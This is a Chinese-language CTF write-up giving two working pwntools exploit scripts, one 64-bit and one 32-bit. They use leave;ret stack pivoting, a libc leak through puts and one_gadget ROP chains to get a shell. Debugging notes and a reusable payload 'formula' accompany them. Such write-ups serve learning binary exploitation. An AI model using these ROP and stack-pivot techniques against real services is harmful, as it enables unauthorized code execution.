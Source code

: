 # 栈的奇妙之旅

```py
from pwn import *
context.arch="amd64"
file=ELF("./pwn")
libc=ELF("./libc.so.6")
p=process("./pwn")
bss=0x404400
rdi=0x004011c5
leave_ret=0x004011fc
rbp=0x004011c8
vuln_read=0x004011e5
p.sendafter("me?\n",b'a'*0x80+p64(bss+0x80)+p64(vuln_read))
p.send((p64(0)+p64(rdi)+p64(file.got['puts'])+p64(file.plt['puts'])+p64(rbp)+p64(bss+0x80)+p64(vuln_read)).ljust(0x80,b'a')+p64(bss)+p64(leave_ret))
libc.address=u64(p.recvline(keepends=False).ljust(8,b'\x00'))-libc.sym['puts']
rcx=libc.address+0x000000000003d1ee
p.send(p64(0)+p64(rcx)+p64(0)+p64(libc.address+0x50a47))
p.interactive()
```
这题做得我太痛苦了……明明很快就想到思路写了这个exp的原型，但是不知道为什么最后执行system的rop链无论如何都不行。调试了很久，不是栈没对齐的原因，总之就是因为某种诡异的问题一直segmentation fault。后面改成one_gadget，能在gdb调试的情况下getshell，但是直接process就不行了……一个晚上都在崩溃地寻找原因，没找到。今天终于找到了罪魁祸首，至少是自认为的——使用了sendlineafter而不是成功exp的sendafter，多出来了一个换行符。用gdb的情况这个换行符不会阻止下一段payload的发送（也不清楚为什么），但是process或者remote不会，导致一段payload没发进去

exp执行链：vuln_read->leave_ret->rdi->puts->rbp->vuln_read->leave_ret->rcx->one_gadget。重点是`leave;ret`的实际含义：
```
leave
//mov esp ebp
//pop ebp
ret
//pop eip
```
然后一边懵逼一边苦逼调试就能出来了（

做完这题不久后我就遇见了同样考点的32位版本，突然发现是有公式的。只要初始read的buf够大（整体大小，不是溢出的大小。比如可以读入0x80，但只溢出0x10），就能套公式。大概是：
- bss为迁移后的地址
- vuln_read为一段调用read的gadget
- x为buffer的大小（vuln_read调用时会有一句`lea register, [rbp-x]`，这个x就是期望的buffer大小）
- rbp为控制rbp的gadget
1. p64(bss+x)+p64(vuln_read)
2. (p64(0)+p64(rdi)+p64(file.got['puts'])+p64(file.plt['puts'])+p64(rbp)+p64(bss+x)+p64(vuln_read)).ljust(x,b'a')+p64(bss)+p64(leave_ret) 。泄漏libc，顺便读入第二段payload
3. p64(0)+getshell rop链

（今年moectf又有类似考点，已验证可用）

（当然也有可能是因为题目基本是一样的）

那道32位版本的题
```py
from pwn import *
libc=ELF("./libc.so.6")
p=remote("pwn.1nf1n1ty.team",31798)
p.sendlineafter(">","hack")
p.sendlineafter(">","4")
p.recvuntil(": ")
value=int(p.recvuntil(";",drop=True),16)
bss=value+0x2e13+0x100
elf_base=value-0x11ed
ebx=elf_base+0x3ff4
p.sendlineafter(">","2")
p.sendafter(">",b'a'*(0xac-8)+p32(ebx)+p32(0)+p32(elf_base+0x12d2)) #不知道是不是特例还是所有32位binary都这样，这题经过调试发现需要恢复ebx，不然报错。这里ebp填0是因为这题跳回main函数开头了，不是vuln_read，所以rbp不重要
p.sendlineafter(">","hacker")
p.sendlineafter(">","4")
p.recvuntil(": ")
libc.address=int(p.recvuntil(";",drop=True),16)-0x4dd50
got_area=libc.address+0x223e34
p.sendlineafter(">","2")
p.sendafter(">",b'a'*(0xac-8)+p32(ebx)+p32(bss+168)+p32(elf_base+0x1246)) #这块就对应公式了
#涉及到 https://github.com/david942j/one_gadget/issues/130 。32位binary用one_gadget稍微麻烦点
p.send((p32(0)+p32(next(libc.search(asm('pop esi; ret'), executable=True)))+p32(got_area)+p32(libc.address+0x173af2)).ljust(176-8,b'\x00')+p32(bss)+p32(elf_base+0x1260)) #这题libc基地址已知，所以第二步就能getshell，不用再串一次payload了。感觉可以无限重复公式第二步以执行多次payload，不过没实验过
p.interactive()
```